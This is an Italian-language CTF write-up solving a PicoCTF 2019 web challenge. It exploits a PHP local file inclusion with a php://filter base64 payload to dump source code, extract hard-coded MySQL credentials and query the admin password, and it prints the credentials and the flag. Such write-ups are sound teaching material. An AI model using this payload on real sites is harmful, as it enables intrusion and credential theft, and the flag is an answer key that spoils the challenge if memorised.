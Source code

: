 ```yaml
---
tags:
  - WebExploitation
  - PicoCTF2019
---
```



## Problema

Get the admin's password. https://2019shell1.picoctf.com/problem/62195/ or http://2019shell1.picoctf.com:62195

## Soluzione

Andando sul link ottengo un redirect a:
```
https://2019shell1.picoctf.com/problem/62195/index.php?file=login
```
Capisco quindi che ho uno script PHP e che potenzialmente vi sono dei file che possono essere richiesti.
Per esempio se chiedo 
```
https://2019shell1.picoctf.com/problem/62195/index.php?file=admin
```
il sito mi dice che non sono un admin, quindi qualcosa sta facendo.
Provo con `file=user` e il sito mi dice `Unable to locate user.php`.
Capisco quindi che ciò che metto dopo "file" è un file PHP.
Questo è un esempio di una vulnerabilità LFI (Local File Inclusion) in quanto il mio script appende ".php" alla fine di quello che scrivo e poi cerca tale file con il `require once`.
In questo caso per vedere il contenuto di qualsiasi file PHP remoto è la funzione
```
php://filter/convert.base64_encode/resource
```
questo forza il PHP ad effettuare una codifica base64 del file richiesto e fornirlo in uscita.
Per esempio se chiamo l'url:
```
https://2019shell1.picoctf.com/problem/62195/index.php?file=php://filter/convert.base64-encode/resource=index
```
fornisce il base64 della pagina `index.php`.
Sostituendo index con admin ottengo il base64 della pagina `admin.php`.
Per esempio decodificando il base64 di `index.php` ottengo le righe vulnerabili:
```php
if(!include($file.'.php')){
	echo 'Unable to locate '.$file.'.php';
}
```
Come immaginavo viene appeso `.php` alla fine del file in un include.
Proviamo a decodificare `admin.php`:
```php
<?php
require_once('cookie.php');
if(isset($perm) && $perm->is_admin()){
?>
```
vedo che chiama `cookie.php` che probabilmente gli permetterà di capire se sono admin o meno.
Decodifichiamo anche `cookie.php` e otteniamo un mega PHP con varie tipologie di autenticazioni, il punto è sempre il `require_once` in alto
Mi accorgo di:
```php
require_once('../sql_connect.php');
```
Vado a decodificare anche quello e ottengo:
```php
$sql_server = 'localhost';
$sql_user = 'mysql';
$sql_pass = 'this1sAR@nd0mP@s5w0rD#%';
$sql_conn = new mysqli($sql_server, $sql_user, $sql_pass);
$sql_conn_login = new mysqli($sql_server, $sql_user, $sql_pass);
```
Ora mi devo quindi connettere al dbms mysql del server, utilizzo la Shell fornita dal sito PicoCTF. Una volta inserite le mie credenziali mi connetto a mysql con il comando
```bash
mysql -u mysql -p
```
Posso fare questo in quando vedo che il server è in locale, quindi direttamente nella shell di PicoCTF.
Inserisco la password letta sopra e entro in MySql.
Una volta fatto questo lancio una query di SELECT sul db degli utenti (so che si chiama `pico_ch2.users` in quanto l'ho visto nelle query di `admin.php`.
```sql
SELECT * FROM pico_ch2.users;
```
e ottengo la password dell'utente amministratore:
```
picoCTF{c9f6ad462c6bb64a53c6e7a6452a6eb7}
```
che è la flag che mi serve.


